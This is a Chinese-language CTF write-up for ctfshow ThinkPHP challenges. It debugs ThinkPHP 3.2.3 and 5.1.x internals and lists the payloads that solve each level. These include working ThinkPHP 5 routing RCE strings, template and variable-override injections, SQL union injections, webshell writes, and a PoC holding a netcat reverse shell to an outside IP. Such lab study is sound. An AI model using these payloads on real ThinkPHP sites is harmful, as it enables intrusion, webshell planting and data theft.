+++
title = "ctfshow的thinkphp专题"
slug = "ctfshow-thinkphp-special"
description = "刷"
date = "2024-10-16T11:09:27"
lastmod = "2024-10-16T11:09:27"
image = ""
license = ""
categories = ["ctfshow"]
tags = ["thinkphp"]
+++

# 安装composer

我们肯定是要看源码的，所以下载这个工具在Windows

```
https://getcomposer.org/Composer-Setup.exe
```

下载之后，选中已经有的`php.exe`

如果在ini中有这个设置就把他注释了

```
xdebug.start_with_request=yes
```

然后不要选择代理，就一直按next就可以了

```
composer -v
如果有回显就是成功了
```

## web569

[tp3.2.3下载](https://github.com/372s/thinkphp-3.2.3)

然后小皮里面设置路径为默认的目录，其中三个文件夹

```
application
Public
ThinkPHP
```

```
CTFshow
thinkphp 专项训练-pathinfo的运用

flag在Admin模块的Login控制器的ctfshowLogin方法中
```

这里就是tp的路由问题，如何利用路由直接来进行懒加载调用方法，因为类的命名空间和文件路径是一致的。

```
PATHINFO模式
/index.php/Admin/Login/ctfshowLogin

普通模式
/index.php?m=Admin&c=Login&f=ctfshowLogin

兼容模式
/index.php?s=Admin/Login/ctfshowLogin

REWRITE模式
/Admin/Login/ctfshowLogin
```

## web570

这里有个小技巧，打开全局搜索(VSCODE)

```
Ctrl+shift+f
```

拿到代码之后挨个找找发现能看的其实也就这一个文件，里面会直接调用函数



```php
<?php
$f="assert";
$d="system('whoami');";
call_user_func($f,$d);
```

然后正常的打就可以了

```
POST /index.php/ctfshow/assert/system($_POST[a]) HTTP/1.1
Host: 8dc231d4-e447-441c-9d51-3e3f18902dd3.challenge.ctf.show
Cookie: PHPSESSID=gk1cuucv5cqg8tls58b134unp4
Content-Length: 19
Pragma: no-cache
Cache-Control: no-cache
Sec-Ch-Ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: https://8dc231d4-e447-441c-9d51-3e3f18902dd3.challenge.ctf.show
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://8dc231d4-e447-441c-9d51-3e3f18902dd3.challenge.ctf.show/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=0, i
Connection: close

a=tac /flag_is_here
```

## web571



这里有一个模版渲染漏洞，其中可以直接渲染`n`

ThinkPHP 中的 URL 通常遵循如下结构：

```
/index.php/Home/Controller/Action
```

这个结构的意义如下：

- `index.php`: 入口文件，负责加载框架。
- `Home`: 指向应用中的某个模块或命名空间。
- `Controller`: 指向具体的控制器类。
- `Action`: 指向控制器中的某个方法（动作）。

控制器类名是 `IndexController`，根据 ThinkPHP 的约定，控制器名称应以 `Controller` 结尾。

在 URL 中，控制器的名称是去掉 `Controller` 后缀的，即在访问时应该使用 `Index`。

```
/index.php/Home/Index/index/?n=<php>system("tac /f*")</php>

/index.php/Home/Index/index/?n=<?php system("tac /f*");?>
```

原因我们去看源码

现在用composer下载，在VSCODE终端中输入这条命令

```
composer create-project topthink/thinkphp=3.2.3 tp3
```

替换恶意代码然后启动

```php
<?php
namespace Home\Controller;

use Think\Controller;

class IndexController extends Controller {
    public function index($n=''){
        $this->show('<style type="text/css">*{ padding: 0; margin: 0; } div{ padding: 4px 48px;} body{ background: #fff; font-family: "微软雅黑"; color: #333;font-size:24px} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.8em; font-size: 36px } a,a:hover{color:blue;}</style><div style="padding: 24px 48px;"> <h1>CTFshow</h1><p>thinkphp 专项训练</p><p>hello,'.$n.'黑客建立了控制器后门，你能找到吗</p>','utf-8');
    }

}
```

然后启动

```
php -S localhost:8000
```

发现刚才的`payload`是可以成功命令执行的，那么我们进行`debug`一探究竟





这一步是调用方法然后就会进行`app::exec`的调用，再者进行存日志，删空间

调试走的是`app.class.php`的

```
invokeAction()->exec()->run()->start()->fatalError()
```

这里发现只是一些方法什么的确认，看来我们需要跟进

跟进之后发现是这条

```
show()->display()->fetch()->
```



发现赋值是这样子，跟进这个函数之后发现代码被隐藏了，那么此时就只能查看官方文档了

```php
function ob_get_clean(){
    $contents=ob_get_contents();
    if($contents!==false) ob_end_clean();
    return $contents;
}
```

`ob_get_contents`用来返回缓冲区的内容

```php
<?php 
ob_start();
echo "Hello ";
$out1=ob_get_contents();
echo "World";
$out2=ob_get_contents();
ob_end_clean();
var_dump($out1,$out2);
```

测试了就知道了输出的是缓存区的内容



这里我们模版是原生模版所以成功`eval`，审计好玩啊，就是代码好多看不懂

## web572

爆破一下了只有

```
GET /Application/Runtime/Logs/Home/§21_09_06§.log HTTP/1.1
Host: 5f96fa2c-732c-4b3b-8bfd-ccd8cc49b70e.challenge.ctf.show
Cookie: PHPSESSID=q0fdga7ep6qaip22ssm216r1m5
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Ch-Ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Referer: https://5f96fa2c-732c-4b3b-8bfd-ccd8cc49b70e.challenge.ctf.show/
Priority: u=0, i
Connection: close


```

然后设置



然后拿到日志，日志里面是这个

```
[ 2021-04-15T14:49:32+08:00 ] 127.0.0.1 /index.php?showctf=%3C?php%20phpinfo();?%3E
```

payload是这

```
/index.php?showctf=<?php system("tac /f*");?>
```

## web573

3.2.3的sql注入漏洞，这里我们直接就注入就可以

````
?id[where]=0 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema='ctfshow'),3,4

?id[where]=0 union select 1,(select flag4s from flags),3,4
````

注入手法很简单，不过还是可以审计一下的，先设置

`/ThinkPHP/Conf/convention.php`，



在修改控制器文件代码为

```php
class IndexController extends Controller {
    public function index(){
        $data = M('users')->find(I('GET.id'));
        var_dump($data);
    }
}
```

那么即可注入

```
?id[where]=0 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3
```

## web574

```php
public function index($id=1){
    $name = M('Users')->where('id='.$id)->find();
    $this->show($html);
}
```

```
?id=0) union select 1,2,3,4--+

?id=0) union select 1,(select group_concat(column_name) from information_schema.columns where table_name='flags'),3,4--+

?id=0) union select 1,(select flag4s from flags),3,4--+
```

这里审计基本和上题一致

## web575

修改主控制器为

```php
<?php
namespace Home\Controller;

use Think\Controller;

class IndexController extends Controller {
    public function index($id){
        $user= unserialize(base64_decode(cookie('user')));
        if(!$user) echo "no";
        if(!$user || $user->id!==$id){
            $user = M('Users');
            $user->find(intval($id));
            cookie('user',base64_encode(serialize($user->data())));
        }
        $this->show($user->username);
    }

}
```

很明显是username里面的问题，我们跟进`show`方法，跟进之后继续跟进fetch方法



这不是之前一样的？那我们直接反序列化进行RCE即可

写poc

```php
<?php

namespace Home\Controller;
class IndexController{
    public $id='1';
    public $username='<?php system("nc 156.238.233.9 9999 -e /bin/sh");?>';
}

echo base64_encode(serialize(new IndexController()));
```

## web576

```php
$user = M('Users')->comment($id)->find(intval($id));
```

跟进之后



跟进到类里面得到`comment`的样子



再从这里跟进到新类





这里利用注释闭合，然后写入shell

```
?id=1*/ into outfile "/var/www/html/shell.php" LINES STARTING BY '<?php eval($_POST[1]);?>'%23
```

## web577

[表达式查询](https://www.kancloud.cn/manual/thinkphp/1768)

```php
<?php
namespace Home\Controller;

use Think\Controller;

class IndexController extends Controller {
    public function index($id){
        $map=array(
            'id'=>$_GET['id']
        );
        $user = M('Users')->where($map)->find();
    }

}
```



然后一直跟进到`Driver.class.php`



发现只要第一个参数是`bind`或者`exp`就会直接拼接查询语句

```
?id[0]=exp&id[1]==0 union select 1,2,3,4--+

?id[0]=exp&id[1]==0 union select 1,(select flag4s from flags),3,4--+
```

## web 578

变量覆盖RCE

```php
<?php
namespace Home\Controller;

use Think\Controller;

class IndexController extends Controller {
    public function index($name='',$from='ctfshow'){
        $this->assign($name,$from);
        $this->display('index');
    }
}
```



首先assign方法进行参数赋值，继续跟进就会发现和之前研究的那个好像是一模一样





```
?name=_content&from=<?php system("whoami");?>

?name[_content]=<?php system("tac /f*");?>
```

## web 579

tp5**未开启强制路由RCE**

```
?s=index/\think\app/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][0]=whoami
```

## web604

tp5**未开启强制路由RCE**，**版本thinkphp 5.1.29**

换方法即可

```
?s=index/think\request/input?data[0]=ls ../../../../&filter=system
```

## web605

**未开启强制路由RCE-姿势3**

**版本thinkphp 5.1.29**，用`write`写webshell

```
?s=index/\think\template\driver\File/write&cacheFile=shell1.php&content=<?php @eval($_GET[1]);?>
```

## web606--web610

**未开启强制路由RCE-姿势4**

**版本thinkphp 5.1.29**，直接大小写绕过即可，总共可用的方法为以下这几个

```
invokefunction、display、input、write
```

poc为

```
?s=index/\think\app/invokeFunction&function=call_user_func_array&vars[0]=system&vars[1][0]=ls /

?s=index/think\request/Input?data[0]=ls ../../../../&filter=system

?s=index/\think\template\driver\File/Write&cacheFile=shell1.php&content=<?php @eval($_GET[1]);?>

?s=index/\think\view\driver\Think/__call&method=display&params[]=<?php system('cat /f*'); ?>
```

## 未开启强制路由RCE动态调试

- **5.0.7 <= ThinkPHP5 <= 5.0.22**
- **5.1.0 <= ThinkPHP <= 5.1.30**

ctfshow里面的是5.1.*，但是这里都分析一下，先搭建环境，composer怎么搭建都搭不好，然后我在网上找到一个Docker可以用，[docker](https://github.com/vulnspy/thinkphp-5.1.29) 然后把里面的东西拖到小皮里面进行搭建最后发现成功了，poc全部都可以用

```
?s=index/\think\app/invokeFunction&function=call_user_func_array&vars[0]=system&vars[1][0]=dir

?s=index/think\request/Input?data[0]=dir&filter=system

?s=index/\think\template\driver\File/Write&cacheFile=shell1.php&content=<?php @eval($_GET[1]);?>

?s=index/\think\view\driver\Think/__call&method=display&params[]=<?php system('dir'); ?>

?s=index/\think\Container/invokefunction&function=call_user_func_array&vars[0]=system&vars[1][]=dir
```

终于，爽了，嘿嘿，其中注意我使用的php版本是7.2.9，我们随便选一个进行测试，首先先黑盒测试一下，我们正常的调用，肯定都是写`/`，但是我这里发现，他直接给我全部变成`\`了



那我们反其道行之，全部用`\`看看，发现没变，那进行穿插看看

```
?s=index\think/request\Input
# 得到回显
# 模块不存在:index\think

?s=index/think\request/Input
# 得到回显
# 模块不存在:variable type error： array
```

参数正常了，但是并不确定这是不是正确的规律，于是把上面的路由全部都用一遍

```
?s=index/think\Container/invokefunction

?s=index/think\app/invokeFunction

?s=index/think\request/Input
```

正在我快乐的实验的时候我发现`?s=index/think\view\driver/Think/__call`以及`?s=index/think\template\driver/File/write`都没成功，也就是说这不是规律，而是TP的某种规则，查资料找到

> ?s=类/方法&参数=值
> ?s=命名空间\类/方法&参数=值

那刚才没成功的payload是`File`类的`write`方法，`Think`类的`__call`方法，所以这里我们要这么写





因为没有index方法所以报错，但是初始化类是成功了

```
?s=index/think\template\driver\File/write
?s=index/think\view\driver\Think/__call
```

开始调试的时候我们要知晓为什么，thinkphp默认没有开启强制路由，我们可以使用兼容模式来调用控制器



这也是我们参数为什么写`s`的原因，同时在官方修改代码的部分打下断点，poc为

```
http://127.0.0.3/public/?s=index/\think\Request/input&filter[]=system&data=calc
```



跟进得到



看到是转换控制器名的，

```php
echo MyClass::parseName('my_variable_name', 1); // 输出: MyVariableName
echo MyClass::parseName('my_variable_name', 1, false); // 输出: myVariableName
```

类似这种，没什么用，然后是`setController`和`setAction`，然后打一遍，发现RCE地方的是这里

```
$response = $this->middleware->dispatch($this->request);
```

添加一个变量发现了奇怪的东西，之前没有细看，`$this->request->dispatch($dispatch);`，我发现



也就是我们刚才黑盒最关心的，为啥要用那样的格式来初始化类和调用方法，

```
$dispatch = $this->route->check($path, $must);
```



对控制器进行处理，同时进行请求，如果请求到了，就返回，也就是初始我们的类和方法，接着跟进`list($path, $var) = $this->rule->parseUrlPath($url);`发现解析url的函数，正是我们传参的格式



出来回到`thinkphp/library/think/route/dispatch/Url.php`也就是一直持续的解析，



再跳转到`thinkphp/library/think/route/dispatch/Module.php`进行初始化以及导入我们请求到的控制器和类，在进行直接的利用







虽然看完了，但是感觉还是挺混乱的，不过我这个打法基本网上没有参考的，属于是自己慢慢调了十几次调出来的，主要就是`url`的解析部分，回来直接就调用了，所以调用的部分不是那么的重要

# 小结

持续更新啊，还是挺多的不过挺有意思，大菜鸡师傅出题就是润！

---

序列化篇更新一篇新的续集，这里这个图太多了，不好放了在我的本地文件夹里面
